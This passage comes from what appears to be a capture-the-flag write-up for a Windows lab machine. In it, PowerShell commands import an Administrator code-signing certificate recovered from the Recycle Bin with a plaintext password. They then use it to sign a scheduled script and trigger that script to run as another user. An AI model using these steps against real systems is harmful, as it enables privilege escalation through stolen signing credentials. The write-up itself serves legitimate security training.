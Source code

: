     
    
    PS C:\> $pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force
    
    PS C:\get-badpasswords> $cert = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My
    
    PS C:\get-badpasswords> $cert
    
       PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My
    
    Thumbprint                                Subject
    ----------                                -------
    204F12473FD6911584501215758270B25701D049  CN=Administrator, CN=Users, DC=windcorp, DC=htb 
    

Now I can use that to sign the file:

    
    
    PS C:\get-badpasswords> Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert
    Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert
    
        Directory: C:\get-badpasswords
    
    SignerCertificate                         Status                                 Path
    -----------------                         ------                                 ----
    204F12473FD6911584501215758270B25701D049  Valid                                  Get-bADpasswords.ps1 
    

#### Trigger Execution

To trigger execution, I’ll run `run.vbs`:

    
    
    PS C:\get-badpasswords> cscript .\run.vbs
    Microsoft (R) Windows Script Host Version 5.812
    Copyright (C) Microsoft Corporation. All rights reserved.
    

Now there’s a file in `C:\programdata`:

    
    
    PS C:\programdata> ls 0xdf.txt
    
        Directory: C:\programdata
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        11/10/2022  10:34 PM           6178 0xdf.txt 
    

It shows the user is not a domain admin, but bpassrunner:

    
    
    PS C:\programdata> cat 0xdf.txt
    
    USER INFORMATION
    ----------------
    
    User Name            SID                                            
    ==================== ===============================================
    windcorp\bpassrunner S-1-5-21-3783586571-2109290616-3725730865-10102
    